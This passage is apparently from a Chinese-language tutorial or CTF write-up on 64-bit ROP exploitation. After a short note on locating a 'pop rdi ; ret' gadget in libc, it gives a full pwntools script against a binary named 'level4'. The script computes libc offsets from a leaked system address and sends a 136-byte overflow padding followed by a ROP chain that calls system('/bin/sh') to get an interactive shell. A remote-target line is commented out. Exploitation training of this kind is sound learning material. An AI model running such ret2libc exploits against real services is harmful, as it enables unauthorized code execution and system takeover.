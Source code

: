 搜索 pop ret 地址

得到 pop rdi ; ret 的地址是 0x0000000000021102

![libc_pop_ret](../pictures/stack_overflow/rop_x86_64/libc_pop_ret.png)

```PYTHON
#!/usr/bin/env python
from pwn import *

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = process('./level4')
#p = remote('127.0.0.1',10001)


binsh_addr_offset = next(libc.search('/bin/sh')) -libc.symbols['system']
print "binsh_addr_offset = " + hex(binsh_addr_offset)

pop_ret_offset = 0x0000000000021102 - libc.symbols['system']
print "pop_ret_offset = " + hex(pop_ret_offset)

#pop_pop_call_offset = 0x00000000000f4739 - libc.symbols['system']
#print "pop_pop_call_offset = " + hex(pop_pop_call_offset)

print "\n##########receiving system addr##########\n"
system_addr_str = p.recvuntil('\n')
system_addr = int(system_addr_str,16)
print "system_addr = " + hex(system_addr)

binsh_addr = system_addr + binsh_addr_offset
print "binsh_addr = " + hex(binsh_addr)


pop_ret_addr = system_addr + pop_ret_offset
print "pop_ret_addr = " + hex(pop_ret_addr)

#pop_pop_call_addr = system_addr + pop_pop_call_offset
#print "pop_pop_call_addr = " + hex(pop_pop_call_addr)

p.recv()

payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)

#payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)

print "\n##########sending payload##########\n"
p.send(payload)

p.interactive()
```
